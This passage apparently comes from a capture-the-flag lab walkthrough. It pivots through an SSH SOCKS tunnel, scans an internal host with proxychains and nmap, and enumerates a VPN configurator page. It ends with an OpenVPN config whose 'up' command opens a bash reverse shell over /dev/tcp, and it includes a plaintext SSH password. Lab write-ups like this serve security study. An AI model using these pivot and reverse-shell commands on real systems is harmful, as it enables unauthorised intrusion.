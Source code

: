 #### 3.1. Tunnel to `192.168.122.*` via `10.10.10.109`
```
# cat > /tmp/chain_6666 << EOF
strict_chain
quiet_mode
[ProxyList]
socks4  127.0.0.1 6666
EOF
# sshpass -pDav3therav3123 ssh -o "StrictHostKeyChecking no" dave@10.10.10.109 -Nf -D 6666 2>/dev/null
# proxychains4 -f /tmp/chain_6666 nmap -Pn -n -p- -sT 192.168.122.4 -v -T5 -sV --open 2>/dev/null
```


#### 3.2. Web interface for Sparklays DNS Server
```
# http http://192.168.122.4 --proxy=http:socks4://127.0.0.1:6666 -b
<h1> Welcome to the Sparklays DNS Server </h1>
<p>
<a href="dns-config.php">Click here to modify your DNS Settings</a><br>
<a href="vpnconfig.php">Click here to test your VPN Configuration</a>
```


#### 3.3. VPN-config page
```
# http http://192.168.122.4/vpnconfig.php --proxy=http:socks4://127.0.0.1:6666 -b
<!-- HTML form -->
<html>
<h1> VPN Configurator </h1><p>
Here you can modify your .ovpn file and execute it.<p>
Note: nobind must be used. <p>
<form action="vpnconfig.php?function=testvpn" method="post">
<textarea rows="10" cols="40" name="text"></textarea><p>
<input type="submit" value="Update file">
<input type="hidden" name="resulturl" value="google.com">

<p>
<a href="vpnconfig.php?function=testvpn" class="mybutton">Test VPN</a>
</html>
```


#### 3.4. Notes page (found via enumeration)
```
# http http://192.168.122.4/notes --proxy=http:http://172.16.201.160:8118 -b
chmod 123.ovpn and script.sh to 777
# http http://192.168.122.4/script.sh --proxy=http:socks4://127.0.0.1:6666 -b
#!/bin/bash
sudo openvpn 123.ovpn
```


#### 3.5. OpenVPN config file (gives reverse shell to Ubuntu box)
```
# http http://192.168.122.4/123.ovpn --proxy=http:socks4://127.0.0.1:6666 -b
remote 192.168.122.1
dev tun
nobind
script-security 2
up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/2323 0>&1'"
```
